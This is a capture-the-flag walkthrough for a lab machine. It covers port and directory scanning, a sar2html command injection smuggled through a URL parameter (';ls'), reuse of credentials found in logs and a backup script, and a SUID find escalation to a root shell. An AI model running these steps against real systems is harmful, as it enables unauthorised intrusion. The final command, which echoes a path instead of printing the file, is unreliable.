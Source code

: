 # Writeup for THM room [Boiler CTF](https://tryhackme.com/room/boilerctf2)

```fish
set -gx IP 10.10.249.201
```

## Start enumeration with portscan

```fish
nmap -sN -sV -sC -oN nmap/init $IP
```

> Found open ports: ``

### Make a full port scan

```fish
nmap -sN -sV -sC -p- -oN nmap/all_ports $IP
```

### HTTP enumeration

```fish
gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt
```

### HTTP enumeration 2

```fish
gobuster dir -u $IP/joomla -w /usr/share/wordlists/dirb/common.txt
```

Found on `http://10.10.249.201/joomla/_files/`: `VjJodmNITnBaU0JrWVdsemVRbz0K`

> Double base64 encoded: `Whopsie daisy`

> Found `http://10.10.249.201/joomla/_test/` mentioning sar2html

Googling fo sar2html exploit

> Found [this](https://www.exploit-db.com/exploits/47204)

Found `log.txt` with url: `http://10.10.249.201/joomla/_test/index.php?plot=;ls`

Users: `basterd` & `stoner`

> Password for user `basterd` found in log.txt

## Connect to ssh

```fish
ssh basterd@$IP -p 55007
```

List files in current folder

```fish
ls
cat backup.sh
```

> Found `backup.sh` and other password in it.

## Priviledge escalation

Search for SUID enabled files:

```bash
find / -perm /4000 2>/dev/null
```

> Found `/usr/bin/find`

Start escalation like desccribed [here](https://gtfobins.github.io/gtfobins/find/#suid):

```bash
find . -exec /bin/sh -p \; -quit
```

> Got root. Print root.txt

```bash
echo /root/root.txt
```
